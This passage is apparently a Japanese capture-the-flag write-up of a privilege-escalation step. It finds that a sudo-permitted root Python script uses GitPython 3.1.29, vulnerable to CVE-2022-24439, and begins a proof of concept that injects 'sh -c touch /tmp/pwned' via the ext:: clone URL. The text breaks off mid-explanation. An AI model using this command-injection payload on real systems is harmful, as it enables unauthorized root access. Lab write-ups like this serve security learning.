 

---

# Privilege Escalation

毎回お馴染みのsudo -lで、prodがスーパーユーザーとして実行できるコマンドやファイルを一覧で表示する
```bash
prod@editorial:/home/dev/apps$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *

```

`/opt/internal_apps/clone_changes/clone_prod_change.py`の中身を見る
`from git import Repo`の一文がある。
この一文は、Git リポジトリと対話するための GitPythonというライブラリを使用していることを示している。
バージョンを調べると、3.1.29であることがわかる。
```bash
rod@editorial:/home/dev/apps$ python3 -m  pip show GitPython 
Name: GitPython
Version: 3.1.29
Summary: GitPython is a python library used to interact with Git repositories
Home-page: https://github.com/gitpython-developers/GitPython
Author: Sebastian Thiel, Michael Trier
Author-email: byronimo@gmail.com, mtrier@gmail.com
License: BSD
Location: /usr/local/lib/python3.10/dist-packages
Requires: gitdb
Required-by: 

```

GitPtython 3.1.29の脆弱性を調べると、CVE-2022-24439が見つかった。
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
この脆弱性は、ユーザー入力の検証が不適切であるために、悪意のあるリモート URL を `clone` コマンドに挿入できる 
この脆弱性が悪用可能なのは、ライブラリが外部の `git` コマンドを呼び出す際に、入力引数を十分にサニタイズしていない ためです。  
ただし、この問題は `ext` トランスポートプロトコルが有効になっている場合にのみ発生します。
PoCを試す。

1. **`Repo.init('', bare=True)`**
    
    - 空の Git リポジトリを作成します。
    - `bare=True` にすると、作業ディレクトリを持たないリポジトリ（通常の Git リポジトリとは異なり、`working tree` がない）になります。
2. **`clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])`**
    
    - `clone_from` は、通常はリモートリポジトリ（例: `https://github.com/user/repo.git`）をクローンするための関数。
    - しかし、`ext::` プロトコルを使用すると、Git の `shell` 経由で任意のコマンドを実行できる。
    - `sh -c touch% /tmp/pwned` は、`touch /tmp/pwned` を実行し、`/tmp/` に `pwned` という空のファイルを作成する。
3. **`multi_options=["-c protocol.ext.allow=always"]`**
    